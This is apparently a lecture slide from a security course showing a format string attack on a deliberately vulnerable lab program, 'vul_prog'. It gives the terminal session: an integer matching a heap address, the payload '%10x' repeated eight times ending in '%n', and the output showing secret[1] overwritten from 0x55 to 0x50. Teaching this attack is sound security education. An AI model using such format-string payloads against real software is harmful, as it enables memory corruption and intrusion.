

# Modify Secret - Provide Input
$ ./vul_prog
The variable secret's address is 0xbfd7d6f0 (on stack)
The variable secret's value is 0x 8557008 (on heap)
secret[0]'s address is 0x 8557008 (on heap)
secret[1]'s address is 0x 855700c (on heap)
Please enter a decimal integer
139816972
Please enter a string
%10x%10x%10x%10x%10x%10x%10x%10x%n
  bfd7d6f8     	1  b7628309  bfd7d71f  bfd7d71e     	0  bfd7d804   8557008
The original secrets: 0x44 -- 0x55
The new secrets:  	0x44 -- 0x50

Modified Secret[1] value